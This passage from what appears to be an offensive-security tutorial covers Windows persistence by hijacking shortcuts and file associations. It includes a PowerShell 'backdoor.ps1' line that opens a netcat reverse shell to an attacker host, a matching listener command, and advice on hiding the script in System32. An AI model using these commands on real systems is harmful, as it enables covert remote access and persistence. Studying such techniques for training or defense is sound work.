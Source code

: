 Before hijacking the shortcut's target, let's create a simple Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties.

**backdoor.ps1**

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe $KALI 4445"
```

**Kali**

```
nc -lvp 4445
```

<figure><img src="../../.gitbook/assets/image (7) (2) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Hijacking File Associations

In addition to persisting through executables or shortcuts, we can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single file type under `HKLM\Software\Classes\`. Let's say we want to check which program is used to open .txt files; we can just go and check for the `.txt` subkey and find which **Programmatic ID (ProgID)** is associated with it. A ProgID is simply an identifier to a program installed on the system. For .txt files, we will have the following ProgID.

<figure><img src="../../.gitbook/assets/image (17) (5).png" alt=""><figcaption></figcaption></figure>
